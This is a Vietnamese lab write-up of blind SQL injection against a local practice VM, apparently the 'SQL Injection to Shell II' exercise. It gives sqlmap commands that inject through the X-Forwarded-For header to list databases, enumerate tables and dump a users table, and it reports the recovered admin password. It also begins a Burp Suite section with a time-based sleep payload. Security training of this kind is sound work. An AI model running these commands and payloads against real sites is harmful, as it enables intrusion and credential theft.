



### Người thực hiện: Trần Ngọc Nam
### Thời gian: 06/04/2022

# Mục lục:
1. [Dùng sqlmap](#1)
2. [Dùng Burpsuite](#2)

## Cách thực hiện:
- Ta sẽ thử thực hiện check lỗi thêm ' <code>http://192.168.216.131/cat.php?id=1%27</code> vào sau id hoặc dùng biểu thức tính toán <code>http://192.168.216.131/cat.php?id=2-1</code> như lần kiểm tra trước.
- Nhưng lần này web đã chặn được 2 lỗi đó.

- Nên lần này ta sẽ sử dụng SQLMAP để phát hiện và khai thác sql injection mù.
- Đầu tiên ta dùng <code>sqlmap -u "http://192.168.216.131/" --headers="X-forwarded-for:1*" --dbs
</code> để phát hiện và lấy tất cả các cơ sở dữ liệu từ máy chủ.

    
    
- Ta thấy có 2 database gồm: information_schema và phoyoblog.
- Lần này ta sẽ lấy tất cả các bảng thuộc về cơ sở dữ liệu "photoblog" <code>sqlmap -u "http://192.168.216.131/" --headers="X-forwarded-for:1*" --tables -D photoblog --smart --batch</code>.

- Như vậy, database photoblog có 4 table gồm: categories. pictures, stats, user.
- Bây giờ ta sẽ check dữ liệu table users để lấy được thông tin đăng nhập <code>sqlmap -u "http://192.168.216.131/" --headers="X-forwarded-for:1*" --dump -T users -D photoblog --smart --batch</code>

- Như vậy, ta đã có thông tin gồm username: admin và password:P4ssw0rd.
- Thử đăng nhập và thành công.

- Link: https://ktflash.gitbooks.io/kakashi/content/from_sql_injection_to_shell_ii.html

## Dùng Burpsuite:
- Đầu tiên ta sẽ sử dụng câu lệnh 'AND sleep (5) # để xem thử là database đó là Mysql hay database khác nếu đúng thì nó sẽ trì hoãn thời gian là 5s. Nếu phiên bản <5 thì ta phải sử dụng hàm BENCHMARK ().
